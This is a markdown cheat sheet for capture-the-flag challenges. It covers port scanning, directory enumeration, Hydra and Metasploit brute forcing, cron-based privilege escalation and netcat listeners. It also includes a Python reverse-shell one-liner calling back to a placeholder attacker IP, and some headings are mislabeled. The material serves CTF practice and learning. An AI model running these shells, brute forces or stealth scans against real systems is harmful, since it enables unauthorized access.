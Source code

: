 # Jeopardy-style CTFs

## Recon

### Port Scanning
- #### **nmap: For normal port scan**
```sh
nmap -sS -sV -O <ip> >> ports.txt
```
- **For aggressive port scan we will use**
```sh
nmap -A -p <ports that we found from normal scan> >> ports.txt
```
```sh
nmap -A -p- -Pn <ip> -v
```
- For scanning top 100 ports and slowing down the scan for hiding from attention 
```sh
nmap -A -F -T2 <ip> -v
```

### Directory Enumeration

- #### **Gobuster**
```sh
gobuster dir -u http://targetIp -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o directory.txt
```
```sh
gobuster dir -u <url-with-http> -w /usr/share/wordlists/dirb/common.txt -o directory.txt 
```

### Some Important commands

- #### **Finding file Type**
```sh
file <filename>
```

- #### **Running Python Server**
```sh
python3 -m http.server 80
```

- #### **Basic Stegnography**
```sh
steghide extract -sf <PictureName>
```
- #### For seeing what is running on a file `we can check if there is any root process is running on a folder or not`
```sh
ps aux
```
- #### Finding belongings of `user` group
```ls
find / -group users -type f 2>/dev/null
```
- #### Alternative of `sudo su` is `sudo bash`
- #### Finding a File
```sh
find / -type f -name user.txt 2> /dev/null
```

### FTP Commands
- #### Downloding from  `ftp` to `local`
```sh
mget <filename>
mget *
mget *.fileextention
```
- #### Alternative of `cat`
```sh
ftp> get file.txt -
```
- 

### POP3 Commands

#### Login BruteForce using `Metasploit`
- Password and Username list needed
```sh
msf6 > use auxiliary/scanner/po
use auxiliary/scanner/pop3/pop3_login 
```
- Need the Listener Now

```sh
nc <target_ip> 110
```
**Commands**
- To see list of files
```sh
list
```
- To see the files
```sh
retr <list number>
```

## Scripts

- #### Python Reverse shell `One-Liner`
```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<machine_Ip-openvpn>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## PrivEsc

- #### **Finding info in the crontab**
```sh
cat /etc/crontab 
```

- #### Searching for `Bash History`
```sh
ls -la /etc/cron.daily/
```
## Reverse Shell
- Starting listener
```sh
nc -nlvp <port_number>
```
### PHP reverse-shell
```ls
/usr/share/webshell/
```
## Avoiding Read and Write Protection
- Copy the protectd file to another file
- Remove the original file


## Links 

- #### **Audio Decoder**
    - [Morsecode](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)
    - [For more accurate](https://www.sonicvisualiser.org/download.html)
    - [dcode](https://www.dcode.fr/spectral-analysis)
- #### Stegnography
    - [steghide webapp](https://www.aperisolve.com/)
- #### **Password Decoder**
    - [Check Psychobreak](https://www.cachesleuth.com/vanity.html)

- #### Reverse Shell `These will give you ROOT` 
    - [GTFOBINS](https://gtfobins.github.io/)
    - [PentestMonkey](https://github.com/pentestmonkey)
    - [Pentest Monkey website](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

- #### HashDecoder
    - [hash killer](https://hashkiller.io/listmanager)
- #### Vulnerability or CVE detection
    - [AttackerKB](https://attackerkb.com/)
    - [AttackerKB TOOL](https://github.com/horshark/akb-explorer)
    - TOOl SearchSploit

## Brute Forcing

- #### Hydra for SSH password bruteforce
```sh
hydra -l <ssh name> -P <passwordlist> -t 6 ssh://target
```


## TIPS
- **Try To know the Current Versions of SSH,UBUNTU,FTP etc**

## Important WriteUps
- [stefanBargan](https://stefanbargan.medium.com/)
- [Aperi](https://www.zeecka.fr/cat/steganography/)
- [cheatsheet](https://www.aperisolve.com/cheatsheet)
- [Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)
